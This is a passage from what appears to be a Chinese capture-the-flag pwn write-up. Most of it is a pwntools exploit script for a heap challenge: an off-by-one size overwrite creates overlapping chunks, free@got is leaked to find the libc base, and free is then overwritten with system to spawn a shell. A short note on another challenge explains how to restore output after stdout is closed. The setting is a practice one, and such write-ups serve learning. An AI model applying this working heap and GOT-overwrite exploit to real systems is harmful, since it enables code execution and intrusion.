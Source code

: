 ```python
	p.recvuntil("Index :")
	p.send(str(index))
	p.recvuntil("Content of heap : ")
	p.send(content)

def show(index):
	p.recvuntil("Your choice :")
	p.send('3')
	p.recvuntil("Index :")
	p.send(str(index))

def delete(index):
	p.recvuntil("Your choice :")
	p.send('4')
	p.recvuntil("Index :")
	p.send(str(index))

free_got = elf.got['free']
add(0x18, 'aaaa') #0
add(0x18, 'bbbb') #1
add(0x18, 'cccc') #2
add(0x18, '/bin/sh') #3

edit(0, 'a'*0x18+'\x81')
delete(1)
add(0x70, 'dddd') #1(has2)
edit(1, p64(0)*7+p64(0x21)+p64(0x8) + p64(free_got))
pause()
show(2)
p.recvuntil('Content : ')
free_addr = u64(p.recv(6).ljust(8, '\x00'))
libc_addr = free_addr - libc.symbols['free']
sys_addr = libc_addr + libc.symbols['system']

edit(2, p64(sys_addr))
delete(3)
p.interactive()

```



## wustctf2020_closed

![image-20210905234341275](C:\Users\xieyucheng\AppData\Roaming\Typora\typora-user-images\image-20210905234341275.png)

关了1（标准输出）和2（标准错误），因此及时getshell了也看不见输出。

```c
exec 1>&0
```
